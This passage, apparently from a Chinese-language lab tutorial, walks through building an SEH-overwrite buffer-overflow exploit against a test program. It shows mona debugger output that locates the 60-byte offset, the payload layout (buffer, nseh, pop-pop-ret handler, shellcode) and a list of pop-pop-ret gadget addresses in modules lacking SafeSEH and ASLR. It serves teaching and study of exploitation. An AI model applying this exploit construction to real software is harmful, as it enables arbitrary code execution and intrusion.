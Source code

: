 ```
    -  Stack pivot between 1008 & 1148 bytes needed to land in this pattern
    EDX overwritten with normal pattern : 0x37654136 (offset 140)
    ECX (0x0012fc74) points at offset 144 in normal pattern (length 156)
[+] Examining SEH chain    SEH record (nseh field) at 0x0012ffb0 overwritten with normal pattern : 0x63413163 (offset 60), followed by 76 bytes of cyclic data
[+] Examining stack (entire stack) - looking for cyclic pattern
    Walking stack from 0x0012e000 to 0x0012fffc (0x00001ffc bytes)
    0x0012fbe4 : Contains normal cyclic pattern at ESP+0x60 (+96) : offset 0, length 300 (-> 0x0012fd0f : ESP+0x18c)
    0x0012fe44 : Contains normal cyclic pattern at ESP+0x2c0 (+704) : offset 0, length 300 (-> 0x0012ff6f : ESP+0x3ec)
    0x0012ff74 : Contains normal cyclic pattern at ESP+0x3f0 (+1008) : offset 0, length 140 (-> 0x0012ffff : ESP+0x47c) 
```

计算出溢出长度为60字节,并列出所有加载的dll,并提示是否有safeSEH和aslr等.

根据前面的知识,构造的shellcode格式应为:buf +nseh +seh handle +shellcode

nseh 为90909090,seh handle为pop pop ret地址,buf为60长度的任意字节,ppt的地址也可以用mona来搜索, `!mona seh`

```
#!bash
0x0040ba77 : pop esi # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040bb1b : pop esi # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x00401616 : pop ebx # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040176e : pop ebx # pop ebp # ret  | startnull,asciiprint,ascii {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040ec4f : pop ebx # pop ebp # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x004018ef : pop esi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cf67 : pop ebx # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cf6d : pop ebx # pop edi # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cedb : pop edi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cee2 : pop edi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe)
0x0040cee9 : pop edi # pop ebx # ret  | startnull {PAGE_EXECUTE_READ} [aaaa.exe] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Documents and Settings\Administrator\桌面\aaaa\Debug\aaaa.exe) 
```
